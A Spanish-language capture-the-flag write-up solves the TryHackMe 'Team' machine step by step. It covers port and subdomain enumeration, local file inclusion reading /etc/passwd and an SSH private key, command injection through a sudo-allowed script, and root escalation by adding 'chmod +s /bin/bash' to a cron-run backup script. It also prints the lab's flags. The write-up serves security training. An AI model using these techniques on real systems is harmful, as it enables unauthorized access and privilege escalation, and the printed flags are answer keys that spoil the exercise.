



**Solución CTF  -  Team**

**CTF de Try Hack Me, paso a paso con explicación de técnicas de
enumeración, explotación y post-explotación en Linux.**

{width="5.905555555555556in"
height="0.8034722222222223in"}

**La IP objetivo será:
10.65.139.182.**{width="5.905555555555556in"
height="0.6069444444444444in"}

Se Completa la 1er pregunta debido a que no solicita ningún
dato.{width="5.905555555555556in"
height="2.36875in"}

Se puebra conexión hacia la IP
objetivo.{width="5.905555555555556in"
height="1.4368055555555554in"}

Se realiza la búsqueda de todos los puertos con nmap. (nmap -p-
10.65.139.182). Se encontró 3 puertos abiertos (FTP 21, SSH 22 y HTTP
80)

{width="5.905555555555556in"
height="1.8076388888888888in"}

Se realizó un escaneo con nmap para descubrir la versión utilizando los
script por defecto, se revisó dichas versiones y no se encontró una
vulnerabilidad directa para explotar.

{width="5.905555555555556in"
height="2.6993055555555556in"}

Se cargó el puerto 80 en el navegador y se observa la pagina por defecto
de Apache, damos click derecho y "Ver pagina fuente".

{width="5.905555555555556in"
height="4.036111111111111in"}

Visualizamos un indicio de que el dominio: "team.thm" es el que debería
resolver la IP
objetivo.{width="5.905555555555556in"
height="2.977777777777778in"}

Se agrega lo siguiente en el archivo /etc/hosts para que resuelva:
10.65.139.182 team.thm. (con el comando: nano /etc/hosts lo
editas).{width="5.904166666666667in"
height="0.6375in"}

Verificas que este correctamente agregado en el archivo: /etc/host.
Comando: cat /etc/hosts \| grep "team.thm"

{width="4.135994094488189in"
height="0.531324365704287in"}

Cargamos en el navegador el dominio "team.thm" y nos carga la página
web.{width="5.905555555555556in"
height="5.5680555555555555in"}

Se realiza una búsqueda de directorios (comando: gobuster dir -u
http://team.thm -w
/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt, js,
php, zip -s 200,204,301,302,307,401 -b "" -t 200 -k).

{width="5.905555555555556in"
height="2.432638888888889in"}

Los directorios encontrados "/script" y "/assets" se tiene el acceso
denegador por autorización, sin embargo el directorio "/robots.txt" nos
da la palabra "dale".

{width="5.905555555555556in"
height="2.079861111111111in"}

Como información adicional, un Hint de la Flag nos indica que hay un
sitio llamado "dev" que está en construcción.

{width="5.905555555555556in"
height="0.7986111111111112in"}

{width="4.031812117235345in"
height="2.0523698600174978in"}

Se realiza una busqueda de subdominios que tengan la palabra "dev".

Comando: ffuf -u http://team.thm -H \"Host: FUZZ.team.thm\" -w
/usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fc
404 -mc 200 \| grep \"dev\"

{width="5.905555555555556in"
height="3.7708333333333335in"}

Se toma el primero y se agrega en el archivo: /etc/hosts para poder
resolverlo con la misma IP Objetivo.

Luego verifica con el comando: cat /etc/hosts \| grep "team.thm"

{width="5.905555555555556in"
height="0.5451388888888888in"}

Se carga el subdominio + dominio: "dev.team.thm" en el navegador y se
observa un enlace web vinculado.

{width="5.905555555555556in"
height="2.4618055555555554in"}

Nos lleva a la URL: <http://dev.team.thm/script.php?page=teamshare.php>,
sin embargo se observa una vulnerabilidad de **Local File Inclusion
(LFI)** o incluso **Remote File Inclusion (RFI)** debido al parametro
"page".

{width="5.905555555555556in"
height="2.05625in"}

Se hace una búsqueda de la ruta "**/etc/passwd**" donde se encuentran
los usuarios del sistema y nos da como resultados los usuarios creados
en el Objetivo Linux. (Usuarios encontrados: root, dale, gyles y
ubuntu).

{width="5.905555555555556in"
height="3.6243055555555554in"}**[root:x:0:0:root:/root:/bin/bash]{.mark}**

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin

sys:x:3:3:sys:/dev:/usr/sbin/nologin

sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin

list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin

gnats:x:41:41:Gnats Bug-Reporting
System(admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network
Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd
Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
\_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
**[dale:x:1000:1000:anon,,,:/home/dale:/bin/bash]{.mark}**
**[gyles:x:1001:1001::/home/gyles:/bin/bash]{.mark}**
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh ftp:x:110:116:ftp
daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-timesync:x:112:117:systemd Time
Synchronization,,,:/run/systemd:/usr/sbin/nologin tss:x:113:120:TPM
software stack,,,:/var/lib/tpm:/bin/false
tcpdump:x:114:121::/nonexistent:/usr/sbin/nologin
fwupd-refresh:x:115:122:fwupd-refresh
user,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
usbmux:x:116:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
ssm-user:x:1003:1005::/home/ssm-user:/bin/sh
**[ubuntu:x:1004:1007:Ubuntu:/home/ubuntu:/bin/bash]{.mark}**

Se intenta con la ruta "/etc/shadow" donde se encuentra los password,
sin nos nos arroja nada, posiblemente por que el usuario donde se
encuentra esta vulnerabilidad no tiene privilegios.

{width="5.905555555555556in"
height="1.9847222222222223in"}

Se realiza la captura con burpsuite para una manipulación manual de los
Request HTTP.{width="5.905555555555556in"
height="2.752083333333333in"}

Se lleva al módulo "Repeater" para probar varias rutas, entre ellas se
encontró la clave privada ssh (id_rsa) del usuario "**dale**" en la
ruta: "**/etc/ssh/sshd_config**"

{width="5.905555555555556in"
height="2.2819444444444446in"}
{width="5.905555555555556in"
height="3.217361111111111in"}

Debido a que tiene el carácter "#" delante de cada fila, se utiliza
notepad para eliminarlos.

{width="4.747141294838145in"
height="4.446344050743657in"}

Se crea el archivo "id_rsa" y se pega la clave privada ssh encontrada.
Comandos: **nano id_rsa** y **cat id_rsa**

{width="5.905555555555556in"
height="4.103472222222222in"}

Se cambia privilegios al archivo "id_rsa" para que sea accesible
únicamente por el usuario del Kali (Comando: "**chmod 600 idrsa**").
Luego de accede directamente por ssh con el comando: "**ssh -i id_rsa
dale@10.65.139.182**".

{width="5.905555555555556in"
height="1.3590277777777777in"}

Una vez dentro, revisamos los archivos que tiene y se encuentra el
archivo "**user.txt**", al visualizar su contenido se encuentra la 1ra
Flag: **THM{6Y0TXHz7c2d}**

{width="5.063206474190726in"
height="0.9688856080489939in"}

Se escribe el comando "**sudo -l**" para listar qué comandos puedes
ejecutar como sudo y se encuentra la ruta "**/home/gyles/admin_checks**"
accesible.

{width="5.905555555555556in"
height="0.6833333333333333in"}

Se analiza el archivo: "**/home/gyles/admin_checks"**, el cual solicita
dos entradas al usuario. La 1era entrada se almacena en la variable
"**\$name**" y se guarda en el archivo /var/stats/stats.txt. La segunda
entrada se almacena en la variable "**\$error"** y posteriormente es
ejecutada directamente como comando en el sistema (\$error), lo que
introduce una vulnerabilidad de tipo **command injection**, ya que no
existe validación de la entrada del
usuario.{width="5.905555555555556in"
height="1.992361111111111in"}

Se ejecuta dicho archivo con el usuario **gyles**: "**sudo -u gyles
/home/gyles/admin_checks**", en la 1era entrada se coloca cualquier
texto y en la 2da escribimos "**/bin/bash**" para obtener una shell
luego ENTER y ENTER. Escribimos "**whoami**" y se cambio al usuario
**gyles**.

{width="5.905555555555556in"
height="1.7590277777777779in"}

Ejecutamos el comando: **python3 -c \'import pty;
pty.spawn(\"/bin/bash\")\'**, para obtener una shell interactiva. Luego
con el comando "**id**" validamos que pertenece al grupo "**admin**".

{width="5.905555555555556in"
height="0.5229166666666667in"}

Nos ubicamos en la archivos del usuario "**gyles**" con el comando:
cd/home/gyles y luego revisamos el archivo "**.bash_history**", donde se
almacena el historial de comandos ejecutados por el usuario en la
shell.{width="5.905555555555556in"
height="2.329861111111111in"}

Se revisa dicho archivo con el comando: "**cat .bash_history**" y se
observa que hubo ejecuciones de otros archivos como
"**/opt/admin_stuff/script.sh**"

{width="5.905555555555556in"
height="3.472392825896763in"}
{width="5.905555555555556in"
height="1.8711646981627297in"}

Se analiza el archivo "**/opt/admin_stuff/script.sh**", observando que
está configurado para ejecutarse cada minuto mediante un cronjob. El
script define dos variables que apuntan a scripts de respaldo
**(/usr/local/bin/main_backup.sh** y **/usr/local/sbin/dev_backup.sh**),
los cuales son ejecutados posteriormente.
{width="5.905555555555556in"
height="1.4944444444444445in"}

Se verifica que el archivo "**/usr/local/bin/main_backup.sh**" posee
permisos de escritura para el grupo admin, como se observa en la salida
de ls -la. Esto indica que usuarios pertenecientes a dicho grupo pueden
modificar el
script.{width="5.905555555555556in"
height="0.9743055555555555in"}

Con el comando: **echo '#!/bin/bash' \> /usr/local/bin/main_backup.sh**,
sobrescribe el script main_backup.sh y lo convierte en un script bash
vacío, con la línea inicial #!/bin/bash.

Con el comando: **echo 'chmod +s /bin/bash' \>\>
/usr/local/bin/main_backup.sh**, activará el SUID bit, que significa que
cuando alguien ejecute /bin/bash, se ejecutará con los permisos del
dueño del archivo, que normalmente es root.

Con el comando: **chmod +x /usr/local/bin/main_backup.sh**, se intento
darle todos los permisos, sin embargo al no ser dueño del archivo no se
permitió.

{width="5.905555555555556in"
height="0.6694444444444444in"}

Luego de 1 min con el comando "**ls -l /bin/bash**" se verifica que el
SUID está activado. Luego se ejecuta el comando "**/bin/bash -p**" para
escalar a root, -p significa: "preservar privilegios".

{width="5.905555555555556in"
height="1.3291666666666666in"}

Nos dirigimos al directorio "root" y se encuentra la 2da Flag:
**THM{fhqbznavfonq}**

{width="4.886099081364829in"
height="1.156411854768154in"}

Eso es todo xd, estaré subiendo mas soluciones de CTF en los siguientes
días, comenten si quiere que resuelva un CTF en especifico.
